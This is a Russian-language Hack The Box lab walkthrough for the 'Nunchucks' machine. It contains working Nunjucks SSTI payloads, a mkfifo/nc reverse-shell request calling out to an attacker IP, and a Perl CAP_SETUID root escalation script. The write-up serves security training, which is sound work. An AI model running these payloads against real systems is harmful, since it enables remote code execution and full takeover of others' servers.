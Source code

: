 # 🟢 Nunchucks(Linux, Easy)

![](../.gitbook/assets/1.png)

### Содержание:

Nunchucks - легкая машина, название которой уже дает отсылку на шаблонизатор, а где шаблонизаторы - там SSTI. Просканировав порты, мы увидим ssh, http и https. Затем профаззим поддомены и найдем тот, который использует шаблонизатор Nunchucks. Загуглив для него вулны, найдем SSTI-эксплоит и получим реверс шелл. Затеем повысим наши привилегии в системе с помощью CAP\_SETUID perl'а.

### Сканируем порты с помощью nmap:

```
$ nmap -sC -sV 10.10.11.122 -oN nmap
```

```
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 6c:14:6d:bb:74:59:c3:78:2e:48:f5:11:d8:5b:47:21 (RSA)
|   256 a2:f4:2c:42:74:65:a3:7c:26:dd:49:72:23:82:72:71 (ECDSA)
|_  256 e1:8d:44:e7:21:6d:7c:13:2f:ea:3b:83:58:aa:02:b3 (ED25519)
80/tcp  open  http     nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to https://nunchucks.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
443/tcp open  ssl/http nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Nunchucks - Landing Page
| ssl-cert: Subject: commonName=nunchucks.htb/organizationName=Nunchucks-Certificates/stateOrProvinceName=Dorse/countryName=UK
| Subject Alternative Name: DNS:localhost, DNS:nunchucks.htb
| Not valid before: 2021-08-30T15:42:24
|_Not valid after:  2031-08-28T15:42:24
| tls-nextprotoneg: 
|_  http/1.1
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
```

![](../.gitbook/assets/2.png)

Как бы я не пытался зарегистрироваться/залогиниться - не получалось. Фаззим поддомены:

```
$ gobuster vhost -u nunchucks.htb -w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -t 40
```

```
Found: store.nunchucks.htb
```

Нашли поддомен, вставляем его в наш конфиг:

```
$ sudo vim /etc/hosts
```

```
10.10.11.122 store.nunchucks.htb nunchucks.htb
```

### Эксплуатируем SSTI в Nunchucks:

![](../.gitbook/assets/3.png)

![](<../.gitbook/assets/4 (1).png>)

На поддомене есть `SSTI(Server Side Template Injection)` уязвимость. Дальше `{% raw %}{{7*7}}{% endraw %}` продвинуться не удавалось, но имя машины дает некоторый хинт. `Nunjucks` - это шаблонизатор для `Jinja2`, используемый для разработки веб-приложений на веб-фреймворках `Node.js`, таких как `Express` или `Connect`. Найдя [пэйлоад](http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine), пытаемся его эксплуатировать:

```django
{% raw %}{{range.constructor("return global.process.mainModule.require('fs')")()}}{% endraw %}
```

![](<../.gitbook/assets/5 (1).png>)

Чтобы эксплуатировать `RCE`, нужно поставить nc и запустить пэйлоад:

```
$ nc -nlvp 9999
```

Запрос с пэйлоадом в email:

```http
POST /api/submit HTTP/1.1
Host: store.nunchucks.htb
Cookie: _csrf=2RciWC895_oUpc9MqIt9QIx1
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://store.nunchucks.htb/
Content-Type: application/json
Origin: https://store.nunchucks.htb
Content-Length: 189
Dnt: 1
Sec-Gpc: 1
Te: trailers
Connection: close
{
    "email":"{% raw %}{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.36 9999 >/tmp/f')\")()}}{% endraw %}"
}
```

![](../.gitbook/assets/6.png)

### Повышаем привилегии с помощью CAP\_SETUID + Perl

Для того, чтобы просканировать систему на уязвимости и мисконфиги, нужно:

* Скачать linpeas к себе:

```
$ wget https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/linPEAS/linpeas.sh
```

* Поднять python-сервер:

```
$ python3 -m http.server
```

Кстати, чтобы узнать свой локальный IP-адрес в VPN можно воспользоваться утилитой ip(ваш IP должен соответствовать интерфейсу tun0):

```
$ ip r | grep tun0
```

```
10.10.16.0/23 dev tun0 proto kernel scope link src 10.10.16.36
```

* На машину, которую нужно проверить, скачиваем linpeas с нашего веб-сервера и запускаем:

```
$ wget 10.10.16.36:8000/linpeas.sh
$ chmod +x linpeas.sh
$ ./linpeas.sh
```

![](../.gitbook/assets/7.png)

Linpeas запустился и очень много строк про конфиги машины, нам же нужна только эта строка:

![](../.gitbook/assets/8.png)

Тут и содержится уязвимость(CAP\_SETUID): setuid и setgid являются флагами прав доступа в Unix, которые разрешают пользователям запускать исполняемые файлы с правами владельца или группы исполняемого файла. То есть можно без привилегий поменять себе идентификатор(uid) и стать рутом(у рута uid=0). Но это все можно сделать в одну команду и одной строкой, так как тут есть защита AppArmor. Поэтому нужно создать отдельный файл и записать в него вредоносный код:

```
$ touch exploit.pl
$ echo "#!/usr/bin/perl" >> exploit.pl
$ echo "use POSIX qw(setuid);" >> exploit.pl
$ echo "POSIX::setuid(0);" >> exploit.pl
$ echo 'exec "/bin/sh";' >> exploit.pl
$ chmod +x exploit.pl
```

![](../.gitbook/assets/9.png)
